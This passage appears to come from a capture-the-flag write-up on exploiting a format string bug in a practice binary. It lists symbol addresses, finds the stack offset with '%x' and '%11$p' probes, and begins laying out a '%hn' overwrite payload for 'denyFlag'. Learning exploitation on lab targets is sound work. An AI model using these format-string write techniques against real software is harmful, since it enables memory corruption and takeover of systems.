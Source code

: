 ```r
0x08049f10  __JCR_END__
0x08049f10  __JCR_LIST__
0x08049f14  _DYNAMIC
0x0804a000  _GLOBAL_OFFSET_TABLE_
0x0804a02c  __data_start
0x0804a02c  data_start
0x0804a030  __dso_handle
0x0804a034  __TMC_END__
0x0804a034  __bss_start
0x0804a034  _edata
0x0804a040  stdin
0x0804a040  stdin@@GLIBC_2.0
0x0804a044  stdout
0x0804a044  stdout@@GLIBC_2.0
0x0804a048  completed
0x0804a04c  denyFlag
0x0804a050  _end
```
So, the address of `denyFlag` is `0x0804a04c` which we have to overwrite. So, in general `%n` tells the number of bytes written so far. But first we need to find out the offset at which our input is getting stored at stack. This is a trial and error method and usually it's not far from the SP(Stack Pointer):-


### Offset Determining

```r
d4mianwayne@oracle:~/Pwning/fmt$ ./level2 
Give me something to say!
AAAA-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x
AAAA-40-f7f1a5c0-0-0-c30000-0-ff909e94-0-0-0-41414141-2d78252d-252d7825-78252d78-2d78252d
As my friend says,"You get nothing! You lose! Good day, Sir!"

```

So, given `AAAA` is stored at 11. To check it, we can use the `$` specifier to access the specific index.

```r
d4mianwayne@oracle:~/Pwning/fmt$ ./level2 
Give me something to say!
AAAA-%11$p
AAAA-0x41414141
As my friend says,"You get nothing! You lose! Good day, Sir!"
```

So, 11 is the index of the input given, let's move on.

### Pwning

Our payload will look like:-

```r
----------------------------------------
| packed target address | offset '$hn' |
----------------------------------------
```
